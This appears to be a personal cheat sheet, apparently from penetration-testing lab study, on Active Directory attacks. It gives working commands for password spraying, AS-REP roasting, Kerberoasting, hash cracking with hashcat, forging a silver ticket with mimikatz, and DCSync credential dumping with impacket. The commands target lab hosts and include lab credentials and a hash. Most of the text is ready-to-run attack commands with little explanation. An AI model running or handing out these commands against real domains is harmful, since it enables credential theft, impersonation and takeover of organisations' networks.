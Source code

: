 NTLM
Kerberos
### Cached AD credentials

hashes are stored in the Local Security Authority Subsystem Service
LSASS process is part of the operating system and runs as SYSTEM

### Password attacks
![[Spray-Passwords.ps1]]

crackmapexec smb 192.168.204.76 -u dave -p 'Flowers1' -d corp.com

### AS-REP Roasting

_Do not require Kerberos preauthentication_ enabled

impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

PowerView's _Get-DomainUser_ function with the option **-PreauthNotRequired** on Windows

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

.\Rubeus.exe asreproast /nowrap

### Kerberoasting

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

sudo impacket-GetUserSPNs -request -dc-ip 192.168.210.70 corp.com/dave

### Silver Tickets

iwr -UseDefaultCredentials http://web04
use Mimikatz to retrieve the SPN password hash
obtain the domain SID
	from whoami /priv
	mimikatz
last list item is the target SPN
create the forged service ticket with the _kerberos::golden_ module

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

### DC Synchronization

mimikatz
	lsadump::dcsync /user:corp\dave

kali
	impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
